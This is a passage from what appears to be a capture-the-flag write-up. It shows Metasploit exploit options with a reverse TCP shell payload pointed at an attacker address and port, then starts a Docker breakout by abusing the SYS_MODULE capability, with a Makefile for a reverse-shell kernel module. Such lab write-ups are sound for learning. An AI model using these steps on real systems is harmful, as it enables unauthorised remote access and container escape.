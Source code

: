```
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.                                                               
   SRVPORT    8080             yes       The local port to listen on.                                                                                                                                                                        
   SSL        true             no        Negotiate SSL/TLS for outgoing connections                                                                                                                                                          
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)                                                                                                                                    
   TARGETURI  /                yes       Base path                                                                                                                                                                                           
   URIPATH                     no        The URI to use for this exploit (default is random)                                                                                                                                                 
   VHOST                       no        HTTP server virtual host


Payload options (linux/x64/shell/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.70      yes       The listen address (an interface may be specified)
   LPORT  9001             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper
```
Also `set ForceExploit true` otherwise the module will fail.



We now have an reverse shell inside of a docker instance. Some docker enumeration and google again showed us we can abuse the SYS_MODULE capability to break out of the docker: [ref](https://blog.pentesteracademy.com/abusing-sys-module-capability-to-perform-docker-container-breakout-cf5c29956edd).

So let's give that a shot:

First we create a Makefile with this content:
```
obj-m +=reverse-shell.o
all:
    make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules
clean:
    make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
```
